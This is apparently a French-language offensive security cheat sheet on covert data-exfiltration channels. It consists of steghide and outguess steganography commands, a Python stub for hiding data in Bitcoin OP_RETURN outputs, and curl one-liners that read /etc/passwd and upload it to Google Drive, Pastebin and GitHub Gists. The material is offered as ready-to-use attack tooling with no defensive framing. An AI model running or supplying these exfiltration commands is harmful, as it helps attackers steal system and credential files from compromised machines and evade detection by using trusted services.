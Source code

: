 ## 📱 Canaux Covert Alternatifs

### Steganographie
```bash
# Cacher données dans image (steghide)
steghide embed -cf image.jpg -ef secret.txt -p password123

# Extraction
steghide extract -sf image.jpg -p password123

# LSB steganography avec stegsolve
java -jar stegsolve.jar

# Outguess pour JPEG
outguess -d image.jpg secret.txt
```

### Blockchain et Crypto
```bash
# Exfiltration via Bitcoin transactions
# Script Python utilisant bitcoin library
python3 << 'EOF'
from bitcoin import *
import binascii

# Données à exfiltrer (limitées par taille transaction)
data = "sensitive_data_here"
hex_data = binascii.hexlify(data.encode()).decode()

# Créer transaction avec data dans OP_RETURN
priv_key = random_key()
pub_key = privtopub(priv_key)
addr = pubtoaddr(pub_key)

# Transaction avec OP_RETURN (max 80 bytes)
print(f"Embed in OP_RETURN: {hex_data[:160]}")  # 80 bytes en hex
EOF
```

### Services Cloud Légitimes
```bash
# Google Drive via API
curl -H "Authorization: Bearer $ACCESS_TOKEN" \
     -F "metadata={name:'backup.txt'};type=application/json;charset=UTF-8" \
     -F "file=@/etc/passwd;type=text/plain" \
     "https://www.googleapis.com/upload/drive/v3/files?uploadType=multipart"

# Pastebin-like services
curl -d "content=$(cat /etc/passwd)" -d "expiry=1hour" https://pastebin.com/api/paste

# GitHub Gists
curl -H "Authorization: token $GITHUB_TOKEN" \
     -d '{"files":{"backup.txt":{"content":"'$(cat /etc/passwd | base64 -w0)'"}}}' \
     https://api.github.com/gists
```

